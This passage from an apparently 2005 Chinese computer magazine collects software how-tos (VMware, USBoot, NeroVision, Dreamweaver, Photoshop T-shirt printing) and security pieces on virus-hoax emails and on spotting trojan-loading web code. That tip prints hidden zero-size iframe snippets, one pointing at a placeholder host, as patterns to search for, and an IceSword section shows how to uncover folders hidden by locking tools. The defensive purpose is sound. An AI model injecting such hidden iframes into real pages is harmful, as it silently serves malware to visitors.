- 所有添加至虚拟组的虚拟机，将不会在 VMware 左侧窗口单独显示，如果想在保留虚拟机的同时将其添加到虚拟组，可以点击 “Add→New Clone of Virtual Machines”(添加→克隆虚拟机)，再选择要添加的虚拟机即可。
- 同一虚拟机只能添加到一个虚拟组中。

### 克隆功能

VMware 新增克隆功能可使用户更方便地复制多份相同的虚拟机与同事、朋友共享。它分为 Full Clone(完全克隆)和 Linked Clone(链接克隆)。顾名思义，Full Clone 就是把虚拟机完完全全复制一份，而 Linked Clone 特性就是基于一个母虚拟机的子虚拟机。

Full Clone 与 Linked Clone 的区别
Full Clone 是完全独立的虚拟机，它的执行效率与被克隆虚拟机相同，但与 Linked Clone 相比，它占用空间多，克隆慢等缺点。

Linked Clone 依赖于被克隆虚拟机(母机)，如果母机出现问题，克隆出来虚拟机子机也同样会出现问题。但它有占用的磁盘空间少，克隆速度快。如果是一个项目小组需要用虚拟机测试软件BUG，那么使用 Linked Clone 是非常方便的，通过邮件就可以实现虚拟机的交换。

### 实例: 为当前虚拟机制作完全克隆

- 第一步: 在窗口左侧选择好要克隆的虚拟机，然后选择菜单中的 “VM → Clone”，打开 Clone 窗口，点击“下一步”，准备克隆。
- 第二步: 这时会出现克隆选择画面，“From current state” 表示克隆当前状态，“From snapshot” 表示从某一还原点进行克隆，根据需要选择，这里我们选择 “From current state”，点击“下一步”(见图4)。
- 第三步: 进行克隆选项，选择 “Create a linked clone” 可使用链接克隆。我们要选择 “Create a full clone” 进行完全克隆，点击“下一步”。设置好克隆虚拟机名及保存位置后点击“完成”即可。要注意克隆的虚拟机文件不能与原文件保存在同一目录下。

### 录像和回放功能

新增的录像和回放功能可以方便地把虚拟机中的操作录制成 AVI 视频文件。通常关于安装系统的图文教程或视频教程都是在虚拟机中截取/录制的，以前录制虚拟机操作过程需要同时开着录制软件，非常占用系统资源。现在可以利用 VMware 自带的视频录制功能录制虚拟机中的操作过程。

### 实例: 为菜鸟录制视频教程

- 第一步: 启动虚拟机，选择菜单中的 “VM → Capture Movie”。
- 第二步: 选择好保存位置，然后在 “Quality” 处选择 “Low(better for e-mailing)”(低质量，测试时，1分30秒的视频只有不到 500KB)，开始记录(见图5)。
- 第三步: 记录完成后，选择菜单中的 “VM → Stop Movie Capture” 即可完成录制。

### 其他新增功能

VMware 新版提高了系统性能，支持新的操作系统；增加了一系列的 USB 设备驱动；利用新增的 vmrun.exe 命令行工具，可以将创建虚拟机、配置虚拟机等操作做成脚本，然后运行。

( HelpOnline Heelen )









### 三步！闪存变启动盘

现在市面上大多数闪存盘都可以作为启动闪盘，但不少厂商为了节省成本，并没有赠送启动盘制作程序，即使赠送的，也多是在 Windows 98 才能正常使用。遇到 Windows 2000/XP，就无法完成制作了，虽然我们以前介绍过用 Winimage 7.0 来制作，但这是一款英文共享软件，不太方便，所以这里为大家介绍一款不到 600KB 的小软件。

USBoot 小档案
软件版本: 1.66
软件大小: 586KB
软件性质: 免费软件
适用平台: Windows 2000/XP
下载地址: http://www.newhua.com/cfan/200511/usboot166.rar

### 实例一：制作引导型闪存盘

- 第一步: 插入闪存盘，运行软件，从列表中选择插入的闪存盘。
- 第二步: 点击 “仅进行引导处理，不格式化磁盘” 项，勾选要使用的模式。通常早期的闪存盘使用 FDD 模式引导的可能性较大，如果你的闪存盘是移动硬盘(或被识别为硬盘的闪存盘)，则要使用 “HDD 模式”(见图1)，其他闪存盘则可根据需要使用任一模式。
- 第三步: 点击 “开始” 按钮，这时会弹出数据将被销毁的警告；点击 “是”，稍候按提示拔出闪存盘，再重新插入后，就能完成引导文件的复制，同时完成引导型闪存盘的制作。

- 如果选择 “引导处理” 项，则表示不格式化闪存盘，直接做引导处理，但多数情况下制作出的闪存盘不能引导。
- 使用 “备份到文件” 及 “从文件恢复” 项可以像使用 Ghost 那样为闪存盘做备份或恢复。

### 实例二：定制启动闪存盘

USBoot 在制作启动闪存盘时，会自动向闪存盘中写入 IO.SYS、MSDOS.SYS、COMMAND.COM 三个文件，这三个文件位于 USBOOT.PAK 文件中。如果你需要定制引导型闪存盘中的内容，可以右击 USBoot 主界面右下角的图标，选择 “添加”，然后就可以加入其他文件了(见图2)。

小编有话说：如果用闪存盘引导后，主板没有认出闪存盘，那引导起来希望渺茫；如果提示 Invalid system disk, press any key to reboot 等信息，则表示闪存盘的格式有问题，切换模式一般就能引导；如果提示 Invalid partition table 或 Missing operating system 或 Error loading operating system 等信息，则表示主板支持闪存盘启动，但只能支持一些老闪存盘。

( 写乐 )



## 数码相片摇身变VCD

每次过节之后，大家都会拍下很多照片，你和全家人分享照片是在电脑前吗？这可就是太俗气了，不如看看下面的方法，让你们全家在电视前欣赏照片吧。要想用电视欣赏照片当然是用VCD来播放照片，于是我们就要将这些照片转换为VCD视频。现在转换照片的方法有很多，其中比较简单的就是用NeroVision Express SE(以下简称NeroVision)，软件的下载地址为http://nj.onlinedown.net/soft/3189.htm，简体中文包下载地址为http://nj.onlinedown.net/soft/15967.htm。

> 小提示
本刊2004年第20期《Nero精彩每一“刻”》一文已经介绍了如何用Nero Express制作照片VCD，但NeroVision的功能要比Nero Express更为强大，制作出来的照片VCD效果更好，特效更多。

第一步：运行NeroVision，打开软件界面，在“您想做什么？”中选择“制作幻灯片→视频光盘”（见图1）；就可以打开“未命名项目”幻灯片(照片)制作窗口（见图2），我们的主要工作就在这里完成。





第二步：添加照片素材。在左上角“我的媒体文件”下拉菜单中选择“创建新组”命令，在“创建资源组”对话框中输入自定义的组名称如“CFan”。点击下方的“浏览媒体”按钮，选择“浏览”在随后的“资源管理器”中找到数码照片。现在你就可以在工作区内预览到这些照片了，但它们还没有添加到项目中，你需要选中这些照片，右击选择“添加到项目”命令，将它们添加到当前项目，此时工作区下方“影带”上就会显示这些照片。

> 小提示
★选择“浏览媒体→浏览并添加到项目”项，可以一步到位将硬盘中的照片添加到当前项目，不过建议大家使用“浏览媒体→浏览”命令，这样对定义照片前后顺序等操作有许多帮助。
★注意同一张照片是可以重复添加的。

第三步：设置照片显示。如果需要更改图片前后顺序，可以用鼠标按住原图片然后拖到需要调整的位置即可。NeroVision默认每幅照片显示时间为4秒，要想多欣赏一下照片，可在“影带”的空白处右击，选择“默认持续时间值”，在打开的对话框中，将“画面可见性时间”设为更高，如10秒，并且勾选“应用到现有画面”项，这样所有的画面都能显示10秒了。

> 小提示
如果需要对单独的某张照片进行显示时间的调整，则只要在影带区中右击该照片，选择“属性”，然后就可以修改显示时间了，在这个窗口中还可以为照片添加文字。

第四步：增加转场效果。简单的几张照片“硬”切换，显然不太美观，现在就让NeroVision的重头戏出场。点击右上方的“显示转场”标签，从中可以看到NeroVision为我们预设了多款精美的转场效果。先选中需要添加转场效果的照片，然后在转场效果中选择不同的效果就可完成转场的添加。如果你觉得这样很麻烦也可以直接在“影带”的空白处右击选择“将随机转场应用到所有转场域”或“将随机转场应用于空白项转场域”(见图3)，这样NeroVision就会自动为你填添各种转场效果了。



第五步：添加声音效果。观看精彩的照片VCD，没有背景音乐怎么成？点击添加素材的“浏览→浏览并添加到项目”命令，找到电脑中准备好的MP3、WAV等音频文件，完成后在下面“影带”的“显示音频”标签中就可以看到你添加的音频文件。

> 小提示
所选歌曲的长度最好与窗口右下角的“总幻灯片持续时间”相当。

第六步：一切准备就绪，点击右上方预览窗口下的绿色“播放”按钮来看看效果吧，还可点击“全屏”按钮来全屏幕显示，如果满意的话就点击右下方的“下一步”按钮。

第七步：这时会打开“目录”窗口，点击“制作新幻灯片”按钮，这时可以按照前面的方法添加新的照片文件，从而实现不同的照片分成不同的视频片段，以方便在使用时快速找到指定的照片。将所有的照片添加完后，在“目录”窗口中点击“下一步”来到“选择菜单”。

第八步：设置选择菜单。选择菜单会显示到VCD的“首页”，也就是VCD 2.0中的选择菜单。面子问题不得不重视，在自定义窗口中点击任意位置，就会出现“您想要修改什么？”的提示窗格，根据你的需要进行相应的修改即可（见图4）。完成后“下一步”，在“预览”窗口利用“遥控器”再次检查我们辛苦的项目结果，再次点击“下一步”。



第九步：设置刻录选项。在“设定刻录参数”中选择好合适的刻录机，光盘名称，以及刻录速度，最后点击“刻录”按钮，在刻录机中放入空白刻录光盘，片刻后，拥有精美照片，华丽转场的照片VCD光盘就完成了。

> （河北 闫艳力）

## 谣言等于“病毒”

最近，有这么一则消息在各个QQ群以及一些论坛中广为传播：“最强大病毒通知！(中毒了！电脑就报销了) 收到一封名为「来抽支签！(exe档案)」请勿开启，……请将这个消息转寄给你通讯录里的所有人！真正威力强大的病毒来了……马吉斯变种病毒中毒者只能再买一台电脑。”

其实，这只是一些无聊或者别有用心的人杜撰出来的谣言，根本没有这样的病毒。谣言中提到了“马吉斯”病毒，确实存在这个名字的病毒。不过，“马吉斯”是2001年爆发的一个邮件蠕虫病毒，在现在的网络环境中根本不可能大规模爆发，目前所有主流杀毒软件都能彻底清除该病毒。

还有一则较为著名的谣言也蒙骗过不少人。它的内容如下：一种新的电脑病毒正在悄悄流行，有消息称，此病毒是一位自称“生命拥有者”的黑客制造的。

据有关人士介绍，有关新病毒的信息来自于微软和诺顿。消息说，每一位接触国际互联网的人都有可能收到一封带有称为“生活是美好的.PPS”的PowerPoint的演示文件，如果打开了它，屏幕上将会跳出一条消息，“现在为时已晚，你的生活将不再美好。”随后，就会失去个人电脑上的一切东西。而那个发信给你的人将获得你的姓名、电子邮件和密码。这种病毒于2005年5月开始流行，美国在线已经确认了它的危险性，而杀毒软件不能清除它，惟一的解决方法是收到后不要打开它，而要立即删除它。据悉，病毒制造者的目标是摧毁个人电脑，并且他正和微软对簿公堂，为Windows XP的专利权与微软在法院争斗，这是病毒为何带PPS文件扩展名的原因。

这一类谣言有个学名叫“hoax”，中文译作“恶作剧邮件”。是因为这类恶作剧信息一般通过电子邮件进行传播而得名。由于“恶作剧邮件”通常都写的惟妙惟肖，有些假消息甚至被国内一些著名的刊物当作重要新闻刊登。

从上面的两个例子可以看出，“恶作剧邮件”仿真度还是非常高的，一般用户很难分辨它们是真是假。如何才能不被这些谣言所骗呢？用户可以经常访问信息安全类的网站获取最新的信息，如http://it.rising.com.cn/newSite/Channels/info/security/TopicExplorerPagePackage/joke_email.htm等。

> （瑞星工程师 史瑀）

## 一个简单查看指令巧防网页恶意代码

最近一段时间有很多玩网络游戏的朋友反映自己的游戏ID被盗，大多都是中了木马，其实这些木马一般是通过恶意网页植入电脑的。如果一打开网页，木马就会自动运行。但我们可以通过查看代码分析网站有没有恶意代码。只要在IE地址栏中输入View-Source:URL即可。举个例子，你想查看http://www.****.com的源代码，只要在IE地址栏中输入：View-Source:http://www.****.com，稍候就会弹出一个窗口，里面就是想看到的网页源代码。按下Ctrl + F组合键查找是否有<iframe src='' width='0' height='0' frameborder='0'></iframe>或document.write("<iframe height=0 width=0 frameborder=0 src="+String.fromCharCode等类似代码，如<iframe marginheight=0 marginheight=0 frameborder=0 width=0 height=0 scrolling=no src=http://www.xxx.com\images	est.gif></iframe>。如果有类似语句，那要小心了，这个网站很可能已经被黑客挂上了QQ或游戏木马。很简单吧？这样做不仅可以学到别人的网页制作技术，更可以事先预防恶意代码，一举两得。

> （河北 香草天空）

## 学会 Dreamweaver，1 小时做好个人网站

本刊专题《1天！我在网上安个家》，从大方向入手，介绍了个人建网站所涉及到的方方面面，其中也有一部分内容是关于用 Dreamweaver 设计网页的。这次的“菜鸟集训营”则趁热打铁、乘胜追击，具体介绍了一个真实个人网站创建的全过程，涉及到更多 Dreamweaver 操作细节及技巧。大家可以将这两篇文章参考着来看。（本文相关素材，可到 http://www.newhua.com/cfan/200511/dream.rar 处下载）

### 实例1：一小时创建个人网站

网站实际上就是许多个网页的集合。个人网站与商业网站最大的区别之一，就是网页内容的规模大小之分，如果你有时间和精力，同样能把个人网站做得像商业网站那样专业。

### 第一步：规划网站

首先要确定整个网站的内容结构。笔者是一个“红迷”，所以想建一个有关《红楼梦》的个人网站，初步确定的子栏目有“夜看红楼”、“红楼原文”、“诗情画意”、“书香之外”。大栏目下还会有一些小栏目，这里就不一一列举了。当然，你希望建一个软件下载站、音乐网站、图片网站等都可以，本例重点是网站制作的方法而非网站内容。

### 第二步：建立本地站点

-   1. 在开始之前还要创建一个新的文件夹，用来管理和保存后面将要创建的网页及各种资源文件，本例是在 D 盘下创建了一个名为 RedDream 的文件夹。
-   2. 启动 Dreamweaver MX 2004（以下简称 Dreamweaver），如果是第一次运行它，将会弹出工作区设置窗口，选择“设计者”后单击“确定”按钮进入主界面（工作区设置以后还可以在“编辑→首选参数→常规→更改工作区”中修改）。单击菜单命令“站点→管理站点”，在打开的对话框中单击“新建→站点”，这时会显示出站点定义向导窗口。
-   3. 按照向导提示，为站点取一个名称（本例为：“红楼逸梦”），单击“下一步”；接下来选择默认的“否，我不想使用服务器技术”，单击“下一步”；接下来选择“编辑我的计算机上的本地副本，完成后再上传到服务器”项，并单击下面的文件夹浏览图标，将“您将把文件存储在计算机上的什么位置？”项设置为前面新建的文件夹，本例中即“D:\RedDream\”，单击“下一步”；将“您如何连接到远程服务器”项暂且设置为“无”（以后还可以修改的），单击“下一步”、“完成”，返回到管理站点窗口，再单击“完成”返回主界面（见图1）。



### 第三步：巧借模板资源快速建网站

网站要想设计得漂亮好看，需要一定美术功底，这对一般初学者来说可能有些难度，我们不妨四两拨千斤，借用一些现成模板快速创建出网站。

-   1. MAC（适用于苹果机）或 PC（适用于 PC 机）可下载模板，本例下载的是名为 Department of History 的 PC 版模板（文件名为：DW_Templates_Department.zip，也可以使用本文提供下载的素材包中的文件来练习）。
-   2. 解开下载的压缩包文件，进入其 Department Sample Site 子目录中，全选里面所有的文件及子文件夹，复制粘贴到 D:\RedDream 中，此时回到 Dreamweaver 中，在右侧的文件浏览窗格中会自动显示出刚刚拷贝过来的文件及文件夹来（如果没有自动显示出来，可按 F5 键刷新一下即可）。
-   3. 每个网站都有一个首页，不管是谁访问网站，第一个看到的总是首页。首页文件名一般为 index.htm，在刚刚拷贝过来的 Department of History 内，会发现也有一个 index.htm，右击它，从右键菜单中选择“设成首页”即可。接着双击 index.htm 在左侧窗口中打开它，此时按下快捷键 F12 在 IE 中预览一下，不费吹灰之力，一个漂亮的站点就建立完成了，点击上方导航按钮可以浏览多个网页（见图2）。



### 第四步：修改模板更新站点

这个模板里的网页内容虽然很丰富，但它并不是我们所需要的，我们要的只是网页框架，具体内容还得替换成自己的才行。

-   1. 单击菜单“修改→页面属性”（快捷键 Ctrl + J），在打开的页面属性对话框中可以对网页进行多种设置，如设置背景图像、改变背景颜色、设置文本和链接的颜色等。单击左侧“标题/编码”项，然后可在右侧“标题”中输入网页的标题，如本例中输入的是“红楼逸梦”，它将出现在网页浏览器的标题栏上；将“编码”设置为“简体中文（GB2312）”。单击确定后返回主界面。
-   2. Dreamweaver 是一款所见即所得的网页编辑器，许多操作与 Word 比较相似。选取首页 WELCOME 中的所有文字，删除后可直接在其中输入自己想要的内容。当然，最好的办法是打开 Word 文件，选取相关文章内容后按 Ctrl + C 组合键复制，再在 Dreamweaver 中按 Ctrl + V 组合键粘贴，这样比较省事。选取文字后，可以在下方“属性”面板中设置文字字体、大小、颜色、风格等，与 Word 操作相似，这里就不细说了。
-   3. 网页上许多文字是以图形方式出现的，当点击某一对象后，如果光标变成闪烁的“I”形状，则所选对象是文字；如果对象周围出现一个黑框，并且右下方出现三个节点黑块，那它就是图形了，拖动节点可调整图像的大小。点击模板网页上面的 "University Of Somewhere" 标志就会发现它实际上是一个图形，显然，这个标志不符合本例站点的要求，需要修改一下。
-   4. 确保图形为选中状态，然后单击“属性”面板上“编辑”右侧的第一个图标即可调出相应的图像软件进行编辑了。虽然 Macromedia 有专门的网页图形处理软件 Fireworks，不过我相信大多数人还是喜欢用 Photoshop，可以在“首选参数”中设置一下，以便在 Dreamweaver 中编辑图形时可以随时调出 Photoshop：单击菜单“编辑→首选参数”，在首选参数对话框中点选左侧的“文件类型/编辑器”项，再在右侧点选相应的文件扩展名，然后单击“编辑器”上面的“+”号打开查找对话框，找到可执行文件 Photoshop.exe 后确定，再单击“设为主要”即可。本例中将后缀为 gif、jpg 的这两种主要的网页图形格式都设置为用 Photoshop 编辑了。
-   5. 通过 Dreamweaver 运行 Photoshop 后，它会自动打开标志图形，将其中的 "University Of Somewhere" 等文字改成 "The Dream of Red Chamber 红楼逸梦"，保存后返回到 Dreamweaver 中（见图3），按 F5 键刷新即可看到修改后的效果了。



-   6. 原模板网页上方的四个导航按钮及左侧的 IMAGE 占位符也都是图片，依据上面方法调用 Photoshop 进行修改，用自己的图形替换原有图形。本例中上面的四个导航按钮分别被改为“夜看红楼”、“红楼原文”、“诗情画意”、“书香之外”，左侧的 IMAGE 占位符被换成一幅红楼梦图片及站长自己写的题诗了。修改完成后，按 F12 键在浏览器中预览一下，最终效果如图 4 所示。



-   7. 至此，首页就改造完成了，是不是很漂亮。不过，当光标从导航按钮上滑过时，你会发现按钮又变成英文的了。这是因为，这里的每个按钮都是由三张图片构成的，正常状态、光标悬停时状态、单击时状态会显示不同的图片。前面修改的是正常状态的图片，还需要将鼠标停靠在按钮上或单击时显示的图片也改过来。在 Dreamweaver 右侧的文件浏览窗格中，单击展开 nav 文件夹，所有按钮图形都在这里了，依次双击打开图形修改即可。

### 第五步：上传网站文件到 Web 服务器

好了，剩下的就是一个工作量问题了，在文件浏览窗格中打开其他网页文件，依照上面方法进行修改即可。网站文件都建好后，

当然是要传到网上去了，否则放到自己的硬盘上孤芳自赏多没意思。

-   1. 单击菜单“站点→管理站点”命令，点选一个站点(本例只有一个站点：“红楼逸梦”)，单击“编辑”按钮，在打开的向导窗口中点击“高级”标签，再在左侧选择“远程信息”，然后在右侧设置远程服务器的各项参数。这些参数一般在你申请Web服务器空间的时候，由网管提供给你的。本例如图5所示，将“访问”设置“FTP”后，下面会显示出相应选项，根据提示填写即可。设置完毕，可先单击“测试”按钮测试一下，如果一切正常，连续单击“确定”按钮返回即可。



小提示
有许多初学者在用Dreamweaver上传文件时总是不成功，这可能跟“主机目录”项的设置有点关系。如果你直接上传到申请的服务器空间的根目录，则在“主机目录”中输入一个“/”即可；如果要传到服务器的某个子目录下，可在子目录名后再加上一个“/”试试，例如“/lxf/”(不含引号)。

-   2. 单击菜单“站点→上传”命令，将弹出一个对话框询问是否包含相关文件，当然选择“是”了，否则网页上的图形会显示不出来的。如果文件不多，一会就能传完了。其实也可以不用Dreamweaver的上传功能，网站文件制作完成后，使用CuteFTP或FlashFXP之类的上传工具将所有文件传到服务器上也可以。

因为涉及到安全的问题，图5中所填写的都是虚拟数据(子目录是fly2spring，而非lxf)，本例真正的网址为：http://www.newhua.com/cfan/fly2spring/，欢迎大家光临。

### 实例2:模板的真面目

实例1中多次提到的“模板”，实际上指的是别人制作好了的现存的网页，那只是笔者为了叙述方便。而真正的Dreamweaver模板，则是一些后缀名为dwt的文件，它们指定保存在站点Templates目录下面。

模板就是一个模具，使用它可以快速“拓”出多个内容一模一样的网页来，如果网页上有许多相同的内容固定不变(如本例中网站标志、导航按钮、左侧的图片及题诗等)，使用模板就可以省去重复劳动之苦了。

-   第一步：实例1所使用的示例文件中已经包含了两个自定义的模板。在Dreamweaver主界面右侧的文件浏览窗格中，单击展开Templates文件夹，双击其中的layout.dwt模板文件打开它。
-   第二步：可以像编辑网页一样在模板中插入表格、图形、文字、JavaScript脚本等任何内容。不过模板比一般的网页多出了可编辑区域、锁定区域等概念。如图6所示，左上角带有名称的蓝线框，称为可编辑区域，通过模板生成的网页，只能在这些可编辑区域中添加、编辑自己的内容，其他地方的内容是改不了的。如果想把网页中某个部分指定为可编辑区域，可选中该处元素，或者在文档窗口状态栏的标签选择器中选择相应标签(如< td>、< img>等)，然后单击菜单命令“插入→模板对象→可编辑区域”(快捷键为Ctrl + Alt + V)，在弹出对话框中随意取一个名称，确定即可。



-   第三步：如果想删除可编辑区域，可右击可编辑区域名称，再从右键菜单中选择“模板→删除模板标志”即可。修改好后单击菜单“文件→保存”命令保存模板，如果已经使用此模板创建了多个网页，则会弹出如图7所示的对话框，显示哪些网页是应用了该模板的，是否需要更新为新模板，根据需要选择即可。



-   第四步：模板改好后，就可以使用它创建新网页了。单击菜单命令“文件→新建”，在新建文档窗口“常用”选项卡中是Dreamweaver内置的多个模板，如使用自己的模板，可单击“模板”选项卡，选择layout模板，再单击“创建”，即可创建一个新网页，对新网页进行必要的编辑修改后，保存即可(注意：网页一定要保存在当前站点文件夹内)。编辑新网页的过程中，你会发现，光标移出可编辑区域时，就变成Stop的图案，而光标内容是不可更改的。

小提示
建立模板有三种方式：1. 修改别人建好的模板；2. 先创建一个空白模板，然后自己手动添加各种页面元素；3. 在网上浏览，看到设计精美的网页时可以保存下来，在Dreamweaver中打开它再保存为模板即可。模板一定要保存到站点Templates文件夹下。

Dreamweaver中要学的东西还很多，不是三页的文章能说得完的，有兴趣的朋友请继续关注我们的杂志，将会刊出更多新鲜热辣的Dreamweaver使用技巧的。另外，朋友们有什么好建议也请告知我，邮件请发：media@cfan.com.cn。

(北京 一页)

## 发挥潜能，IceSword功能再发掘

IceSword是一款优秀的软件，第8期《电脑爱好者》为大家介绍了它在防黑方面的应用，其实利用其强大功能，还可以让它帮你完成一些特殊功能。

-   1. 破解文件夹加密隐藏

在IceSword中还有一个“文件”操作功能，实际上也就是一个简易的资源管理器，虽然只提供了文件复制和删除两个命令功能，但却可以修改已经打开的文件，而且还能查看被一些专用软件隐藏的保密文件夹呢。

笔者用专业的文件夹隐藏工具File Securer将C:\Program Files目录中的两个子目录隐藏后，在资源管理器中立刻就无法看到了。运行IceSword后，单击“文件”标签，然后展开C:\Program Files目录，发现排列在最上面有一个名称为空的目录，展开后看到，原来隐藏的两个子目录都可以在这里呢(见图1)，右击要保存的文件，选择“复制”，即可将其复制并保存到指定目录。不过IceSword每次只能保存一个文件，如果能够直接复制整个文件夹就好了。

笔者又试用了另外一款文件夹隐藏工具“TopLang File Lock”，同样没有能够逃过IceSword的眼睛，也可以看到并复制文件。

-   2. 限制程序运行

IceSword还具备创建进程规则功能，利用这个功能还可以实现对系统中的危险程序限制运行，例如要实现禁用注册表编辑器“regedit.exe”，具体步骤如下。



第一步：在IceSword中单击菜单“文件→创建进程规则”，打开创建对话框，再单击“添加规则”按钮即可打开进程规则设置对话框(见图2)。

第二步：选中“禁止”选项，然后在下面的“被创建进程规则”栏中选择“文件名”，并输入“regedit.exe”。如果只想针对特定路径下的某个文件进行限制，则可以选择使用“全路径名”，并输入要禁止运行的文件完整路径即可。最后单击“确定”按钮。

第三步：无论你在开始菜单运行栏中输入“regedit”，或在“资源管理器”中直接双击“regedit.exe”打开“注册表编辑器”，系统都会提示“参数不正确”而无法运行，从而避免了别人随意修改你的注册表。

当然，要保持这个限制功能，必须保证IceSword一直在运行状态，退出IceSword后，此功能就失效了。



(河南 马德睿)

## 清凉一夏——个性T恤DIY

夏日炎炎，又到了穿T恤的季节，看到大街上人们穿着五颜六色的T恤，你是否想DIY一件与众不同的T恤来体现自己的创意？有了Photoshop，有了一台彩色喷墨打印机，梦想就能轻松实现。本文涉及到的素材，可以到 http://www.newhua.com/cfan/200511/T-shirt.rar 处下载。

## 实战1:Photoshop中巧试装

即使你家里没有喷墨打印机，也能在Photoshop中为自己“穿”上各种超酷的T恤。今天我们将使用Photoshop中强大的Liquify (液化)滤镜，把特定图案“贴印”到褶皱不平的衣服上。(本例使用的是最新版本Photoshop CS2，其液化滤镜与CS版中的几乎一样，与7.0版中的则稍有差别)

第一步：在Photoshop中打开一幅T恤衫图片，如图1所示(大家可以拍几张穿着T恤的照片，这样制作出来的效果就更真实了)，T恤不怎么平整，如同穿在身上一样有着许多的褶皱。再打开一个大脚印图案(见图2)，本例准备把它贴印到T恤上(当然，大家可以随意使用自己喜欢的图案来练习)。如图3所示，使用移动工具将大脚印图案拖到T恤图片窗口上，它会自动创建一个新图层。按Ctrl+T键，然后拖动图案周围的节点，适当调整好图案大小后按回车键确定。







第二步：在图层(Layers)调板上，单击大脚印图层前面的眼睛图标暂时将其隐藏(再次单击可重新显示该图层)。接着单击Channels(通道)标签切换到通道调板上，如图4所示，选择一个对比度比较明显的通道，如Red(红)通道，右单击它，选择Duplicate Channel(复制通道)命令，将创建一个名为Red copy的通道(秘技1:直接拖动某一通道到调板底部的“新建通道”按钮上，可快速复制该通道)。



第三步：选中刚刚复制的通道，然后按Ctrl+L键调出Levels(色阶)对话框，如图5所示，将左右两侧的三角小滑钮(即黑白场)往中间拖，这可增加该通道图像的对比度。

第四步：单击Layers标签返回图层调板中，使大脚印图案重新显示出来，并选中该图层，然后按Shift + Ctrl + X键(菜单命令“Filter→Liquify”)调出Liquify(液化)滤镜。这是一款功能强大的变形滤镜，通过它可以完成许多意想不到的特效，大家可以多做实验体会一下。本例将通过它将大脚印图案“溶化”到T恤上，达到以假乱真的效果。



1. 首先在Liquify对话窗口左侧点选Push Left Tool(左推工具，快捷键为O，旧版本名为Shift Pixels Tool，快捷键为S)；再在右侧Tool Options中将Brush Size(画笔大小)设置为50，Brush Pressure(画笔压力)设置为30；接着在右下角的View Options中勾选Show Mask(显示蒙版)、Show Backdrop(显示背景)、Show Image(显示图像)三个选项(见图6)。



2. 在Mask Options中，单击左侧第一个下拉按钮(Replace selection)，从下拉菜单中选择Red copy，也就是我们在前面复制的红色通道，这时会发现，相应于通道中黑灰色的部分，都着上了一层半透明的红色，也即是蒙版色，表示这部分图像将被冻结，不会受到变形的影响。

3. 如图7所示，使用Push Left(左推)工具，由左至右，由上至下，沿水平方向平推三次或多次，确保整个大脚印图案都被拖到过；接着单击Mask Options中的Invert All按钮反相前一步中的冻结区域，然后再由右往左平拖大脚印图案。最后单击OK按钮返回Photoshop主界面中，如果感觉效果不明显，可重复再做一次液化处理。



```
液化滤镜快捷键小集
Ctrl + -:缩小视图
Ctrl + +:放大视图
Ctrl + Z:还原上一步操作
Ctrl + Alt + Z:多层还原
```

按Alt键不放，则Cancel按钮变成Reset按钮，单击可恢复到初始状态
按住空格键不放，光标将变成手的形状，此时可拖动鼠标察看视图的不同部分

第五步：通过上一步骤的液化处理，现在大脚印图案已“溶化”到T恤上面了，只是效果看起来有点生硬不自然。这是因为该图案与T恤没有统一的光亮对比度的原因，接下来让我们继续加工。

1. 单击Channels切换到通道调板中，点选Red copy通道，按Ctrl+A键全选该通道中的图像(秘技2：通过快捷键可以方便地操作选区，如Ctrl+A键全选图像、Ctrl+D键快速选择、Ctrl+H键快速隐藏或显示出选区、Ctrl+Shift+I可以反选)，再按Ctrl+C键复制。

2. 返回图层调板，取消选择后，点击一下大脚印图层，再按Ctrl+V键粘贴，则刚才复制的通道图像自动在上面建立一个新图层。新图层盖住了底下所有的图像，这不是我们希望见到的，没关系，将它跟大脚印图层组合剪贴蒙板即可(秘技3:按住Alt键不放，然后将光标移到相邻两个图层的交界线上，光标将变成两个交叉圆形，此时单击可创建剪贴蒙版，重复操作可取消剪贴蒙版)。



3. 将新图层的模式改为Multiply(正片叠底)，最终效果将如图8所示，是不是很逼真！

## 实战2:把图案打印到T恤上

上面毕竟是纸上谈兵，但如果你有一台彩色喷墨打印机的话，那你就可以将个性化图案打印到T恤上，效果跟在专卖店买来的差不多，非常的酷。

第一步：在开始打印(实际上是转印)T恤之前，至少要具备以下条件：

- 1. 彩色喷墨打印机
- 2. T恤转印纸(可以到打印机厂商，如EPSON等，所指定的经销商处购买)
- 3. 电熨斗(不能是蒸汽熨斗)
- 4. 纯棉T恤衫或其他纯棉纺织品，最好是没有图案的那种。
- 5. 一条毛巾

第二步：在Photoshop中处理好要转印的图像，根据所购买的T恤转印纸的大小决定图像尺寸，例如：你购买的是A4幅面的T恤转印纸，则建议图像尺寸为28cm × 19cm。为保证打印输出的质量，图像的分辨率最好要大于150dpi。

第三步：放好T恤转印纸，在Photoshop中执行菜单命令“File(文件)→Page Setup(页面设置)”，选择正确的打印机，并设置好各项打印参数，打印即可。

第四步：打印完图像后，用剪刀沿图像的边沿剪下来，并确保纸张边缘与图像有1/4英寸的距离。把电熨斗设置为最高温度档进行预热(T恤转印不能使用蒸汽熨斗)；展平毛巾放置在桌子上，再把纯棉T恤平铺在毛巾正中，确保没有皱折、压痕；把打印出的带有图像的T恤转印纸平铺在T恤上，有图像的一面要朝下贴在T恤上，如图9所示，按一定的时间进行熨烫。




地沿图像的四周进行熨烫，约熨烫30周，每周的时间大概是4秒左右。最后关闭电熨斗，并把它放到一个比较安全的地方。等待大约1、2分钟之后，从一个角开始，慢慢地从T恤衫上撕掉T恤转印纸，你的个性化T恤就完成了。注意：如果等待时间太长，T恤冷却得太多，可能会造成T恤转印纸难以从T恤衫上撕掉的问题。

限于篇幅，这里对T恤转印的讲述有点简略，大家可从本文后面的网络大补帖中找到更多的资料与操作图解。其实现在有许多T恤转印店，你只要把自己设计好的图案（或者指定一个图案）给店家，他们就会帮你完成个性化T恤制作的，非常方便，也很经济。

## 小提示

### 怎样防止T恤脱色

转印的时候，通过电熨斗加热，使得颜料溶化浸入纤维中，完成染色，不过最外层的颜料与衣服不可能完全融合，会产生浮色，在第一次洗涤时会脱落，所以清洗不妥当就会使其他的衣服被染上色。下面是一些网友的经验之谈，大家可以借鉴一下：泡的时候，图案要单独朝上，也就是白色的部分不要和图案叠压在一起。清洗时，最好是漂洗。脱水时，不要把衣服拧干，可以小心地用脱水机甩干，或者晾干，不要曝晒。

## 网络大补帖

- 1. 被Photoshop揉皱的青蛙王子
网页地址：http://www.ln.xinhuanet.com/itpd/2005-02/28/content_3790292.htm
重点体会：可以看作是本文实战1的一个扩展练习，不过里面使用的Photoshop 7.0，界面稍有不同，请注意。
延展练习：不同的纹理附上图案之后，会有不同的效果，比如在岩石上使用此方法，可以产生岩画的效果等。大家可以发挥自己的想象力做出更有趣的图形来。

